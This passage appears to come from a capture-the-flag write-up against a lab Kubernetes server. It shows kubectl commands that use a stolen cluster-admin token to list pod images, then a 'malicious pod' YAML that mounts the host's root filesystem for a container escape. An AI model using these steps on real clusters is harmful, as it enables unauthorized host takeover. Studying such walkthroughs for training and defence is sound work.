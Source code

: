         imagePullPolicy: Always
        name: webapp
    ...[snip]...



I'll loop over all the pods and see what images they are running.
There's only two:



    oxdf@parrot$ kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt | grep -v NAMESPACE | while read line; do ns=$(echo $line | awk '{print $1}'); name=$(echo $line | awk '{print $2}'); kubectl get pod $name -o yaml -n $ns --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt | grep '  - image: '; done | sort -u
      - image: localhost:5000/dev-alpine
      - image: localhost:5000/node_server



Here's the full command with whitespace for readability:



    kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
      | grep -v NAMESPACE
      | while read line; do 
          ns=$(echo $line | awk '{print $1}'); 
          name=$(echo $line | awk '{print $2}'); 
          kubectl get pod $name -o yaml -n $ns --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
            | grep '  - image: '; 
        done 
      | sort -u



It pulls the list of pods, gets rid of the header, and then loops over
each line. For each, it gets the namespace (`$ns`) and the pod name
(`$name`), and then calls the API to get the full YAML. It uses `grep`
to get the image location, and then all the results are passed into
`sort -u` to get unique entries.

#### Malicious Pod

I'll create a YAML to describe my pod:



    apiVersion: v1 
    kind: Pod
    metadata:
      name: alpine
      namespace: kube-system
    spec:
      containers:
      - name: evil0xdf
        image: localhost:5000/dev-alpine
        command: ["/bin/sh"]
        args: ["-c", "sleep 300000"]
        volumeMounts: 
        - mountPath: /mnt
          name: hostfs
      volumes:
      - name: hostfs
        hostPath:  
          path: /